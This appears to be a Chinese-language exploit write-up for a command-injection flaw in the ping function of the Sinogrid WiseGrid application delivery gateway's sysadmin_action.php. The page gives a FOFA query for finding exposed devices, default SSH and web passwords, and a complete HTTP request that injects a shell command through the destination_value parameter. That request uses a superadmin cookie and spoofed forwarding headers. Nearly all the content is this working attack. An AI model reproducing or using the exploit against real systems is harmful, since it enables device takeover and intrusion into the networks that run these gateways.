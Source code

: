 # 信诺瑞得 WiseGrid慧敏应用交付网关 sysadmin_action.php 后台命令执行漏洞

## 漏洞描述

信诺瑞得 WiseGrid慧敏应用交付网关 sysadmin_action.php 对应的ping功能存在后台命令执行漏洞，通过默认口令可以获取系统权限

## 漏洞影响

<a-checkbox checked>信诺瑞得 WiseGrid慧敏应用交付网关</a-checkbox></br>

## FOFA

<a-checkbox checked>app="WiseGrid慧敏应用交付网关"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1639645646589-222b3867-219a-4ec3-bc4a-325585ef1b6d.png)

默认口令

```go
ssh：root/sinogrid
web: admin/sinogrid
POST /bin/sysadmin_action.php?action=getinfo&operation=ping&destination_value=`id`&ping_count=3&sar_value=3&netstat_value=tcp&interface= HTTP/1.1
Host: 
Cookie: PHPSESSID=4510o12llugti8k4f24971rdf2; funcs=NNN; appversion=WiseGrid-V4.2.2R_17322; hbstate=alone; username=admin; passwordmd5=ef9ffdf6c1e2fe91d4e14b30323fb771; role=superadmin; authmode=LOCAL; session_time=1639643323; serverip=211.151.95.2; lang=zh; declaration=1; needSyn=false
Content-Length: 0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96", "Google Chrome";v="96"
Accept: */*
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
X-Forwarded-For: 127.0.0.1
X-Originating-Ip: 127.0.0.1
X-Remote-Ip: 127.0.0.1
X-Remote-Addr: 127.0.0.1
Connection: close
```

![img](../../../.vuepress/public/img/1639646020676-d8a2f896-53e9-4acb-b1aa-e2466c70a767.png)

![img](../../../.vuepress/public/img/1639646037306-7b65d58d-ae71-4104-9d47-a8b8a0bdbfef.png)